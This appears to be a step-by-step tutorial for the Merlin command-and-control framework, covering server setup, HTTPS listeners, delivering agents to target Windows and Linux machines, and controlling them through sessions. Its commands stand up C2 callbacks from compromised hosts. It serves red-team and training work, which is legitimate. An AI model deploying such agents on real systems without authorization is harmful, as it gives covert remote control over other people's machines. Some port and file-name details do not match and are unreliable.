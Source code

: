 # Merlin Command and Control (C2) Framework Guide

This guide provides a comprehensive, step-by-step methodology for downloading, installing, configuring, and using the **Merlin C2 framework**. Merlin is a lightweight, post-exploitation command and control framework written in Go. It is designed to be cross-platform, extensible, and easy to use for red teaming and penetration testing purposes.

By following this documentation, you will be able to:
- Set up and run the Merlin server.
- Configure listeners.
- Deploy agents on target machines.
- Interact with agents and execute commands.

---

## Step 1: Downloading and Extracting Merlin C2

### 1. Download the Latest Version of Merlin
Visit the official [Merlin GitHub Releases Page](https://github.com/Ne0nd0g/merlin/releases) to download the latest version of the framework.

Use the following `wget` command to download the server file:

```bash
wget https://github.com/Ne0nd0g/merlin/releases/download/v2.1.3/merlinServer-Linux-x64.7z
```

### 2. Extract the Compressed File

After downloading, extract the file using the 7z tool:

```bash
7z x merlinServer-Linux-x64-v2.1.3.7z
```

**Note:** The extracted files are password-protected. The default password for extraction is merlin.


## Step 2: Running the Merlin Server

### 1. Start the Merlin Server

Navigate to the folder where the server has been extracted and run the Merlin server:

```bash
./merlinServer
```

### 2. Verify Server is Running

Once the server is running, open a new terminal window and navigate to the `/data/bin` directory to access the compiled Merlin CLI and agent files:

```bash
cd /data/bin
```

### 3. Start the Merlin CLI

Run the Merlin CLI in the `/data/bin` directory:

```bash
./merlinCLI
```

### 4. Start the Listeners

With the CLI running, initiate the listeners using the `listeners` command:

```bash
listeners
```

### 5. Configure Merlin to Listen on All IPs

To allow access from any device in the network, configure Merlin to listen on all interfaces:

- Use the `use` command to select a protocol (e.g., HTTPS):

```bash
use HTTPS
```

- Set the interface to `0.0.0.0`:

```bash
set Interface 0.0.0.0
```

- Set the port to `8443` (or any other port of your choice):

```bash
set Port 8443
```

- Verify the listener’s configuration:

```bash
show
```

- Start the listener:

```bash
start
```

## Step 3: Running the Merlin Agent

### 1. On Kali Linux

Open a new terminal window and run the Merlin agent with the default URL pointing to the server:

```bash
./merlinAgent -url http://127.0.0.1:443
```

If the listener is configured on a global IP, replace `127.0.0.1` with your host IP.


### 2. On Windows

1. Send the Windows agent to the target Windows machine.

2. Use a Python server to share the Windows agent:

```bash
python3 -m http.server {port}
```

3. Access the server from the Windows browser and download the Windows Merlin agent.

4. Open Command Prompt (CMD) in the directory where the agent is downloaded and run:

```bash
.\windowsmerlinagentname -url https://ip_of_machine_where_server_is_running:port_no
```

### 3. Listing the Agents

To view all running agents, use the `sessions` command:

```bash
sessions
```

## Step 4: Interacting with the Agents

### 1. Interacting with an Agent

To interact with a specific agent, use the interact command followed by the agent's ID:

```bash
interact agent_id
```

### 2. Available Commands

After successfully interacting with the agent, type `help` to see a list of available commands that you can execute on the agent machine.

---

# Additional Information About Merlin

### Key Features of Merlin

- **Cross-Platform Support:** Merlin agents can run on Windows, Linux, and macOS.

- **Extensible Architecture:** Merlin supports custom modules and extensions.

- **Encrypted Communication:** All communication between the server and agents is encrypted using TLS.

- **Lightweight:** The framework is designed to be minimal and efficient.

### Use Cases

- **Red Teaming:** Simulate advanced persistent threats (APTs) in a controlled environment.

- **Penetration Testing:** Test the security posture of an organization.

- **Incident Response Training:** Train security teams to detect and respond to C2 frameworks.

### Best Practices

- Always use Merlin in a legal and authorized environment.

- Regularly update to the latest version to benefit from new features and security patches.

- Use strong passwords and encryption for sensitive operations.

# Conclusion

This guide provides a clear and structured approach for setting up and using the Merlin C2 framework. By following these steps, you can effectively deploy and manage Merlin agents for post-exploitation activities. Ensure that you follow each step carefully and verify your setup at each stage to avoid any issues.

For more information, visit the official [Merlin GitHub Repository](https://github.com/Ne0nd0g/merlin).

---